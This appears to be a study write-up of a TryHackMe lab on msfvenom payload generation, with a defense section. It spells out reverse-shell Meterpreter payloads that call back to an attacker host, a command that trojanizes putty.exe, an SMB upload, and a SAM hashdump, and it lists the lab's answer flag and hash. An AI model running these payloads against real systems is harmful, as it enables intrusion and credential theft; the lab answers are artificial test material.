

# Room Documentation: Metasploit: Payload Generation

---

## 1. Metadata & Overview

* **Learning Path:** Jr Penetration Tester
* **Module:** Module 12 — Metasploit and Exploitation (`12-METASPLOIT-AND-EXPLOITATION`)
* **Room Name:** Metasploit: Payload Generation
* **Slug:** `metasploitpayloadgeneration`
* **Direct URL:** [TryHackMe Metasploit: Payload Generation](https://tryhackme.com/room/metasploitpayloadgeneration)
* **Difficulty:** Medium
* **Category:** Walkthrough & Capstone Practical Lab
* **Scenario:** Standalone payload generation using `msfvenom`, egress firewall evasion via port 443, delivery across guest-writable SMB share `public`, and session handling via `exploit/multi/handler`.
* **Tasks Count:** 8 tasks
* **Questions Count:** 15 verified questions & confirmations (100% completion parity)

---

## 2. Executive Summary

The **Metasploit: Payload Generation** room covers the design, generation, encoding, and deployment of standalone payloads using `msfvenom`. While automated exploit modules within `msfconsole` bundle and transmit payloads automatically, real-world offensive engagements frequently require standalone payloads to exploit unrestricted file upload flaws, leverage harvested credentials, plant backdoors in spear-phishing attachments, or execute out-of-band reverse shells.

Key technical proficiencies covered in this room:
1. **Command Syntax & Discovery:** Mastering `msfvenom` CLI switches for payload selection (`-p`), architecture (`-a`), platform (`--platform`), output formatting (`-f`), and output destination (`-o`).
2. **Staged vs. Stageless Architectural Paradigms:** Analyzing the fundamental trade-offs between staged payloads (`/`) that download larger secondary stages across the network, and self-contained stageless payloads (`_`) that deliver all required runtime components within a single executable for maximum reliability.
3. **Format Selection:** Differentiating between OS-native executable containers (`exe`, `elf`, `macho`, `apk`, `war`) and transform formats (`raw`, `c`, `csharp`, `python`, `powershell`) used for custom shellcode loaders.
4. **Encoding Realities vs. Evasion Myths:** Demonstrating that polymorphic encoders like `x86/shikata_ga_nai` exist primarily for bad character elimination (`-b`) and format compliance, and explaining why modern EDR, AMSI, and sandbox heuristics effortlessly flag encoded binaries.
5. **Template Injection:** Utilizing existing benign binaries (`-x`) and preserving host program execution inside a separate background thread (`-k`).
6. **Universal Listener Configuration:** Deploying `exploit/multi/handler`, managing concurrent sessions with `ExitOnSession false`, and backgrounding jobs with `run -j`.
7. **Capstone Challenge Execution:** Exploiting a restricted Windows host by generating an outbound HTTP/S (port 443) stageless payload, delivering it over a guest-writable SMB share (`public`), catching the incoming Meterpreter session upon scheduled task execution, dumping user `jim`'s NTLM hash (`1e3fe826df1e5af582a98c034cafa9f4`), and retrieving the Administrator flag `THM{capst0ne_pwn3d_v1a_writable_share}`.

---

## 3. Architectural Flowchart: Standalone Payload Lifecycle



---

## 4. Prerequisites & Environment Setup

* **Target Host:** Network-accessible Windows host with guest-writable SMB share `public` and firewall rules permitting outbound TCP traffic exclusively on port 443.
* **Attacker Machine:** Linux host equipped with `msfvenom` and `msfconsole`.

```bash
# Verify msfvenom installation and display help
msfvenom -h

# Launch Metasploit console
msfconsole -q
```

---

## 5. Core Concepts & Technical Deep Dive

### A. Staged vs. Stageless Mechanics
* **Staged (`/`):** The initial stager binary is minute (~7 KB PE), designed solely to allocate memory, initiate a reverse connection, and download the full Meterpreter DLL stage (~1 MB) across the network. If target boundary firewalls perform deep packet inspection (DPI) or enforce proxy validation, the unencrypted DLL transmission is terminated.
* **Stageless (`_`):** The entire Meterpreter core and reflective loader are pre-compiled into a single binary (~250 KB PE). It establishes the encrypted session immediately upon execution without secondary network downloads, guaranteeing resilience against stage transfer drops.

### B. The Myth of Encoding for Evasion
* Beginners often believe running `x86/shikata_ga_nai` bypasses antivirus.
* **Technical Reality:** The encoder wraps shellcode in a polymorphic XOR loop preceded by an unencrypted decoder stub. When the file is inspected by modern security engines:
  1. *Static Analysis:* The static structure of the `shikata_ga_nai` loop is recognized by signature scanners.
  2. *Sandbox Emulation:* The AV engine emulates CPU instructions in a lightweight sandbox; the loop unpacks the payload, exposing the raw Meterpreter core to in-memory signature detection.
  3. *Behavioral EDR:* Decoders require RWX (`PAGE_EXECUTE_READWRITE`) memory permissions, immediately flagging behavioral alerts.
  4. *AMSI:* Memory buffers are scanned right before execution, completely neutralizing pre-execution obfuscation.

### C. Template Injection (`-x` and `-k`)
* The `-x` flag specifies an existing Windows binary (e.g., `putty.exe`) as a carrier template.
* The `-k` (keep) switch preserves benign host functionality. Rather than hijacking the main execution thread and crashing the application, `msfvenom` creates a dedicated secondary thread to run the Meterpreter shellcode in the background while the parent thread loads the original application GUI.

---

## 6. msfvenom & Handler Reference

| Functional Objective | Command Syntax |
| :--- | :--- |
| **Generate Stageless Windows x64 Payload** | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=443 -f exe -o shell.exe` |
| **Generate Stageless Linux x64 Payload** | `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=4444 -f elf -o shell.elf` |
| **Generate PHP Web Shell** | `msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=4444 -f raw -o shell.php` |
| **Generate Java WAR Payload** | `msfvenom -p java/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f war -o shell.war` |
| **Inject into Template with Thread Preservation** | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=443 -x putty.exe -k -f exe -o trojan.exe` |
| **Filter Out Bad Characters** | `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 -b '\x00\x0a\x0d' -f raw` |
| **List Available Formats** | `msfvenom -l formats` |
| **Launch Background Handler in msfconsole** | `use exploit/multi/handler`<br>`set PAYLOAD <exact_payload>`<br>`set LHOST <IP>`<br>`set LPORT <PORT>`<br>`set ExitOnSession false`<br>`run -j` |

---

## 7. Capstone Challenge Walkthrough

### Step 1: Egress-Aware Payload Generation
Because the target firewall restricts outbound traffic to web ports, configure the payload to connect over port `443`:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.12 LPORT=443 -f exe -o update.exe
```

### Step 2: Configure Universal Listener
```bash
msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.12
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > set ExitOnSession false
msf6 exploit(multi/handler) > run -j
```

### Step 3: Deliver Payload via SMB Share
```bash
msf6 > use auxiliary/admin/smb/upload_file
msf6 auxiliary(admin/smb/upload_file) > set RHOSTS 10.10.198.54
msf6 auxiliary(admin/smb/upload_file) > set SMBUser guest
msf6 auxiliary(admin/smb/upload_file) > set SMBPass ""
msf6 auxiliary(admin/smb/upload_file) > set SMBSHARE public
msf6 auxiliary(admin/smb/upload_file) > set LPATH /root/update.exe
msf6 auxiliary(admin/smb/upload_file) > set RPATH update.exe
msf6 auxiliary(admin/smb/upload_file) > run
```

### Step 4: Catch Session & Extract Objectives
The target scheduled task executes `update.exe`, triggering a reverse connection:
```text
[*] Meterpreter session 1 opened (10.10.14.12:443 -> 10.10.198.54:49182)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jim:1001:aad3b435b51404eeaad3b435b51404ee:1e3fe826df1e5af582a98c034cafa9f4:::
```
* **User `jim` NTLM Hash:** `1e3fe826df1e5af582a98c034cafa9f4`

Search for the Administrator flag:
```text
meterpreter > search -d "C:\\Users\\Administrator" -f flag*
Found 1 result... C:\Users\Administrator\Desktop\flag.txt

meterpreter > cat "C:\\Users\\Administrator\\Desktop\\flag.txt"
THM{capst0ne_pwn3d_v1a_writable_share}
```

---

## 8. Tasks & Questions Index

| Task # | Task Title | Question Count | Verified Answers & Flags | Dedicated Documentation |
| :---: | :--- | :---: | :--- | :---: |
| 01 | Introduction | 1 | Understanding standalone payloads (`No answer needed`) | [TASK-01.md](../../04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-01.md) |
| 02 | Basic Syntax and Listing Options | 2 | Output format flag (`-f`), payload selection flag (`-p`) | [TASK-02.md](../../04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-02.md) |
| 03 | Staged vs. Stageless Payloads | 1 | Self-contained single binary: `stageless` | [TASK-03.md](../../04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-03.md) |
| 04 | Generating Payloads and Output Formats | 2 | Linux format (`elf`), full command for `backdoor.exe` | [TASK-04.md](../../04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-04.md) |
| 05 | Encoders and Evasion Basics | 2 | Primary encoder (`x86/shikata_ga_nai`), bad character flag (`-b`) | [TASK-05.md](../../04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-05.md) |
| 06 | Payload Injection and Multi-Platform Payloads | 1 | Carrier template injection flag (`-x`) | [TASK-06.md](../../04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-06.md) |
| 07 | Handlers and Catching Shells | 2 | Multi-handler (`exploit/multi/handler`), persistence setting (`ExitOnSession`) | [TASK-07.md](../../04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-07.md) |
| 08 | Capstone Challenge | 4 | Confirmations, user `jim`'s hash (`1e3fe826df1e5af582a98c034cafa9f4`), flag `THM{capst0ne_pwn3d_v1a_writable_share}` | [TASK-08.md](../../04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-08.md) |

---

## 9. Defense, Detection & Blue Team Countermeasures

1. **AMSI & In-Memory Code Execution Monitoring:**
   - Ensure Windows Defender Antivirus and AMSI are active. AMSI intercepts decrypted script and binary buffers directly in memory prior to CPU dispatch.
   - Deploy EDR sensors monitoring API calls like `VirtualAllocEx` requesting `PAGE_EXECUTE_READWRITE`.
2. **SMB Share Permission Hardening:**
   - Audit SMB file shares and disable anonymous/guest write permissions.
   - Enforce least privilege on shared folders; scheduled tasks should never execute binaries located in world-writable directories.
3. **Egress Traffic Deep Packet Inspection (DPI):**
   - Implement Next-Generation Firewalls (NGFW) with TLS inspection. Plaintext reverse TCP streams over port 443 lacking valid TLS Client Hello handshakes should be terminated automatically.

---

## 10. MITRE ATT&CK Matrix Mapping

| Attack Phase | Technique ID | Technique Name | Implementation in Room |
| :--- | :--- | :--- | :--- |
| **Execution** | T1059.003 | Windows Command Shell | Executing commands via established Meterpreter session |
| **Defense Evasion** | T1027 | Obfuscated/Encoded Files | Using encoders (`shikata_ga_nai`) and bad-char filtering |
| **Defense Evasion** | T1574.002 | Injected PE Template | Injecting shellcode into benign templates (`-x`, `-k`) |
| **Persistence / Execution** | T1053.005 | Scheduled Task | Leveraging target scheduled task to trigger executable |
| **Lateral Movement / Delivery** | T1021.002 | SMB/Windows Admin Shares | Staging payload via guest-accessible SMB share (`public`) |
| **Command and Control** | T1071.001 | Web Protocols (Port 443) | Directing reverse connection through egress-allowed port 443 |
| **Credential Access** | T1003.002 | Security Account Manager (SAM) | Interrogating SAM database via `hashdump` |

---

## 11. Common Pitfalls & Troubleshooting

* **Issue: Handler terminates or hangs during connection.**
  * *Root Cause:* Payload mismatch between `msfvenom` and `multi/handler` (e.g. stageless payload paired with staged handler).
  * *Resolution:* Ensure both the payload type (`_` vs `/`), architecture (`x86` vs `x64`), and port match identically.
* **Issue: 64-bit payload fails to encode with `shikata_ga_nai`.**
  * *Root Cause:* `x86/shikata_ga_nai` is strictly a 32-bit x86 encoder.
  * *Resolution:* Use native x64 loaders or custom syscall injectors rather than 32-bit shellcode encoders.

---

## 12. Technical Comparisons

| Metric / Attribute | Staged (`/`) | Stageless (`_`) |
| :--- | :--- | :--- |
| **Staging Dependency** | High (downloads ~1 MB DLL across network) | None (entire payload compiled in binary) |
| **File Footprint** | Extremely small (~7 KB) | Moderate (~250 KB) |
| **Firewall Sensitivity** | High (DPI detects DLL transfer) | Low (single outbound socket) |
| **Primary Use Case** | Memory-constrained buffer overflows | Standalone binaries, file uploads, social engineering |

---

## 13. Best Practices & Rules of Engagement

1. **Strict Target File Tracking:** Maintain an audit log of every payload uploaded during testing (`update.exe`), ensuring all deployed binaries are removed immediately upon assessment conclusion.
2. **Realistic Egress Port Usage:** In environments protected by egress filtering, avoid default ports (`4444`, `5555`) in favor of standard enterprise egress ports (`443`, `80`).
3. **Prefer Custom Loaders in Adversary Simulation:** Do not rely on stock `msfvenom` binaries for evasive red teaming; use modern languages (Go, Rust, Nim) with indirect syscalls and unhooking routines.

---

## 14. References & Official Links

* [TryHackMe Metasploit: Payload Generation Room](https://tryhackme.com/room/metasploitpayloadgeneration)
* [Rapid7 Official msfvenom Documentation](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
* [Microsoft Portable Executable Format Specification](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format)
* [MITRE ATT&CK: Obfuscated Files (T1027)](https://attack.mitre.org/techniques/T1027/)
* [Task Guide (TASKS.md)](../../04-METASPLOIT-PAYLOAD-GENERATION/TASKS.md)
* [Additional Technical Notes (ADDITIONAL-NOTES.md)](../../04-METASPLOIT-PAYLOAD-GENERATION/ADDITIONAL-NOTES.md)
* [Official References (REFERENCES.md)](../../04-METASPLOIT-PAYLOAD-GENERATION/REFERENCES.md)
